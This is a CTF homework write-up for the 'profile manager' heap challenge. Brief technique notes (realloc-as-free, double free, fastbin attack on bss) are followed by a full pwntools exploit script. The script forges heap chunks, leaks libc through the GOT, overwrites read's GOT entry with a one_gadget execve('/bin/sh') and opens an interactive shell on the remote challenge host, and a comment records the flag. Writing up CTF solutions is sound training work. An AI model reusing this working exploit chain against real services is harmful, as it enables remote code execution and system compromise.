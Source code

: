 # HW4
## profile manager 150
* Trick: `realloc( ptr , 0 )` do the things that `free( ptr )`, according to glibc malloc/malloc.c:
```c
void *
__libc_realloc (void *oldmem, size_t bytes)
{
  mstate ar_ptr;
  INTERNAL_SIZE_T nb;         /* padded request size */

  void *newp;             /* chunk to return */

  void *(*hook) (void *, size_t, const void *) =
    atomic_forced_read (__realloc_hook);
  if (__builtin_expect (hook != NULL, 0))
    return (*hook)(oldmem, bytes, RETURN_ADDRESS (0));

#if REALLOC_ZERO_BYTES_FREES
  if (bytes == 0 && oldmem != NULL)
    {
      __libc_free (oldmem); return 0;
    }
#endif
```
* `Double free` -> `fastbin attack`, but only for 0x20 size of fastbin.
* Use `age` on `bss` to do `fastbin attack` on the `bss`, only 0x10 length could write for us so i leave fake size for the next `fastbin attack`.
* Ruin the name pointer but overwrite desc pointer because of `strdup`, damn :(
* We can fix name pointer because of this code:
```c
    p[i].name = strdup(buf);
    ...
    if(size < 0x90){
		puts("Length must be larger than 0x90");
		free(p[i].name);
		return ;
	}
```
* It let us fix the name pointer with valid address, but doesn't change the desc pointer we forged.
* With the desc pointer is readable and writable , we can leak libc from got, and also hijack them.
* read -> one

```python
#!/usr/bin/env python2
# -*- coding: ascii -*-
from pwn import *

# FLAG{I_HAVE_N0_1DEA}

context.arch = 'amd64'

e , l = ELF('./profile_manager-53eb91391ff43a88dfebcde578afd125d2c681f7') , ELF('./libc.so.6-14c22be9aa11316f89909e4237314e009da38883')

host , port = 'csie.ctf.tw' , 10140

#y = remote(host,port)
#y = process( './profile_manager' , env = {'LD_PRELOAD':'./libc.so.6'} )
#y = process( './profile_manager' )
#print util.proc.pidof(y)
#raw_input('>')

def add( name , age , size , data ):
    y.sendafter( 'ice :' , '1' )
    y.sendafter( 'Name :' , name )
    y.sendafter( 'Age :' , str( age ) )
    y.sendafter( 'ion :' , str( size ) )
    if size >= 0x90:
    	y.sendafter( 'ion :' , data )

def sho( idx ):
    y.sendafter( 'ice :' , '2' )
    y.sendafter( 'ID :' , str( idx ) )

def edt( idx , name , age , data ):
    y.sendafter( 'ice :' , '3' )
    y.sendafter( 'ID :' , str( idx ) )
    y.sendafter( 'Name :' , name )
    if name == "\x00" : return
    y.sendafter( 'Age :' , str( age ) )
    y.sendafter( 'ion :' , data )

def dle( idx ):
    y.sendafter( 'ice :' , '4' )
    y.sendafter( 'ID :' , str( idx ) )


'''
Bad VPN QAQ
So need to connect many times for sure.

* realloc( ptr , 0 ) -> free( ptr ) 
God job :)
'''

while True:

    y = remote(host,port)
    
    add( 'yuawn' , 0x21 , 0x200 , '7' * 0x70 ) # calloc yuawn :D
    add( 'yuawn' , 0x21 , 0x200 , '7' * 0x70 )
    add( 'yuawn' , 0x21 , 0x200 , '7' * 0x70 )

    try:
        edt( 1 , '\x00' , 0x21 , '7' ) # prepare double free for fastbin attack
        edt( 0 , '\x00' , 0x21 , '7' ) # bypass the checking
        edt( 1 , '\x00' , 0x21 , '7' )

        edt( 1 , p64( 0x602100 + 0x30 - 4 ) + '\x00' , 0x21 , 'a' ) # forge fake fd

        add( 'a' * 0x7 , 0x21 , 0x90 , '7' * 0x70 ) # take previous one
    
        add( 'D' * 0xc + '\x21' , 0x21 , 0x90 , '7' * 0x70 ) # modify fake size 0x21 on bss

        dle( 0 )
        dle( 1 )

        edt( 3 , p64( 0x602100 + 0x40 ) , 0x21 , 'a' ) # fastbin attack again

        add( 'yauwn' , 0x21 , 0x90 , '7' * 0x70 )

        add( 'a' * 8 + p64( e.got['read'] ) , 0x21 , 0x90 , '7' * 0x70 ) # overwite p[3] , it would ruin name pointer , because of strdup :()

        edt( 0 , '\x00' , 0 , '' ) # make a 0x21 fastbin chunk in freed list, cause the last one is invalid

        add( 'yauwn' , 0 , -1 , 'D' ) # modify p[3] name pointer with correct one, but doesn't change desc pointer we overwrote.

        sho( 3 ) # leak libc

        y.recvuntil( 'Desc : ' )
        l.address += u64( y.recvline()[:-1].ljust( 8 , '\x00' ) ) - l.symbols['read']
        log.success( 'libc -> ' + hex( l.address ) )

        # https://github.com/david942j/one_gadget
        '''
        0xf1117	execve("/bin/sh", rsp+0x70, environ)
        constraints:
            [rsp+0x70] == NULL
        '''

        one = 0xf1117

        edt( 3 , 'yuawn' , 0x7777777 , p64( l.address + one ) ) # edit it for gothijacking read_got to one

        y.sendafter( 'ice :' , '1' ) # trigger read -> one

        sleep( 0.7 )

        y.sendline( 'cat /home/`whoami`/flag' )

        y.recvuntil( 'Name :' )

        y.interactive()
        y.close()
        break
    except:
        y.close()

```
```
```